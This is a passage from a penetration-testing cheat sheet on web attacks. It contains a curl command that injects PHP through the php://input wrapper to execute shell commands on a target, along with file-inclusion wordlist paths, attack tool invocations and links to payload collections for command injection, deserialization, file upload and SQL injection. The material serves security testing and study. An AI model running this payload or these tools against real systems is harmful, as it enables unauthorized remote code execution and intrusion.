 ##### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

#### Useful LFI list

```
# Linux
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

# Windows
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
```

#### Tools

```
kadimus --url <URL>
python lfisuite.py
```

### Command injection

For command injection always use BurpSuite !

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

### Deserialization

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
```

### File upload

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```

### SQL injection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://blog.cobalt.io/a-pentesters-guide-to-sql-injection-sqli-16fd570c3532
```

### XSS
